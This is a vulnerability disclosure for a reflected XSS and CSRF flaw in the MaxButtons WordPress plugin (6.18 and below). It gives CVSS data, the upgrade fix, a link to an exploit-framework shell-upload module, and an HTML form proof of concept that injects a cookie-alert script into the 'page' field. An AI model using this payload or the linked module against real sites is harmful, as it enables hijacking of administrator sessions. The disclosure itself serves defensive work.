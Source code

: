 ```yaml
---
layout: single
title: MaxButtons <= 6.18 Reflected XSS
date: 2017-06-10
categories:
  - security
  - websec
  - disclosure
tags:
  - wordpress
  - maxbuttons
  - reflected xss
excerpt: Due to a lack of CSRF mitigation and entity encoding in `includes/admin_header.php`, it is possible to execute scripts in the context of an admin user by including a script in the `page` field in a POST request.
---
```

## Homepage
[https://wordpress.org/plugins/maxbuttons/](https://wordpress.org/plugins/maxbuttons/)

## Overview
Due to a lack of CSRF mitigation and entity encoding in `includes/admin_header.php`, it is possible to execute scripts in the context of an admin user by including a script in the `page` field in a POST request.

## CVSS Score
4.8

## CVSS Vector
[(AV:N/AC:M/Au:N/C:P/I:P/A:N/E:F/RL:OF/RC:C)](https://nvd.nist.gov/vuln-metrics/cvss/v2-calculator?vector=(AV:N/AC:M/Au:N/C:P/I:P/A:N/E:F/RL:OF/RC:C))

## Versions Affected
6.18 and below

## Solution
Upgrade  to version 6.19 or newer

## WordPress Exploit Framework Module
[exploit/xss/reflected/maxbuttons\_reflected\_xss\_shell\_upload](https://github.com/rastating/wordpress-exploit-framework/blob/development/lib/wpxf/modules/exploit/xss/reflected/maxbuttons_reflected_xss_shell_upload.rb)

## Proof of Concept
```xml
<form action="http://[target]/wp-admin/admin.php?page=maxbuttons-controller" method="post">
  <input name="page" type="text" value="&quot;&gt;&lt;script&gt;alert(document.cookie);&lt;/script&gt;&lt;div class=&quot;">
  <input type="submit" value="Submit">
</form>
```

## WPVDB-ID
[8831](https://wpvulndb.com/vulnerabilities/8831)
